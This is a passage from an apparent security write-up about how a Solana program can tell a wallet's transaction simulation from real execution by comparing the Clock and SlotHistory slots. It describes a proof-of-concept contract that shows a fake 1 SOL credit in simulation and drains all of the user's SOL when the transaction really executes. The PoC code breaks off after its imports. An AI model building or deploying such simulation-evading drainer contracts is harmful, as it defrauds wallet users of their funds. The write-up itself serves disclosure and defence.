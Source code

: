 [solana/sdk/program/src/clock.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/sdk/program/src/clock.rs#L109)
```rust
pub struct Clock {
    // the current slot
    pub slot: Slot,
    pub epoch_start_timestamp: UnixTimestamp,
    pub epoch: Epoch,
    pub leader_schedule_epoch: Epoch,
    // start timestamp for this slot
    pub unix_timestamp: UnixTimestamp,         
}
```

The `Clock` does not get updated at the same time as the `SlotHistory` because it has to contain the actual slot and we've seen before that a slot might not always contain a block. Updating the slot at the end of the previous block could lead to the `Clock` containing an invalid slot in the case that the next slot does not produce a block. Instead, the `Clock` struct has to be updated at the beginning of a block as it is currently done (code has been simplified):

[solana/runtime/src/bank.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L1469)
```rust
fn _new_from_parent(
        parent: &Arc<Bank>,
        slot: Slot,
    ) -> Self {
    let mut new = Bank {
        slot,
    };
    let parent_epoch = parent.epoch();
    new.update_clock(Some(parent_epoch));
    new
}
```

We can deduct some pseudo code that would allow us to detect the simulation from that

```python
if clock_account.slot >= slot_history_account.next_slot:
    print("In real execution context")
else:
    print("In simulation")
```

## Proof of Concept

We created a Proof of Concept to take different paths based on the execution context. When the smart contract detect that it is running in a simulation, it credits the user with 1 SOL. Otherwise, it transfers all the user's SOL to an account owned by the program.

As the user thinks that he will be credited SOL, it is easy to trick him into approving the transaction.

```rust
use solana_program::{
    account_info::{next_account_info, AccountInfo},
    clock::Clock,
    entrypoint,
    entrypoint::ProgramResult,
    msg,
    native_token::LAMPORTS_PER_SOL,
    program::invoke,
    program_error::INVALID_ARGUMENT,
    pubkey::Pubkey,
    system_instruction,
    sysvar::Sysvar,
```